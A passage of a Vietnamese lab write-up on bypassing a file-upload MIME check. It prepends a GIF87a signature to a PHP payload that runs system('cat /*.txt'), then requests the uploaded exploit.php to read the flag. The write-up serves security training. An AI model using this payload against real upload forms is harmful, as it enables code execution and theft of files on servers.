 Ở level cuối này, tác giả đã sử dụng hàm `finfo_file()` để lấy ra MIME type của file mà chúng ta tải lên. Sau đó thực hiện so sánh nó với 1 trong 3 MIME type `image/jpeg`, `image/png` và `image/gif`.

Để bypass thành công, ở trong file `exploit.php` em thêm file signature của file gif vào trước đoạn code php:

```php
GIF87a <?php system("cat /*.txt"); ?>
```

Em gửi request đã thấy file được tải lên thành công:

![level-6-2](images/lab-cbjs/level-6/level-6-2.png)

Gửi request tới file `exploit.php` em đã thấy được flag:

![level-6-3](images/lab-cbjs/level-6/level-6-3.png)

## Lab anh Đức
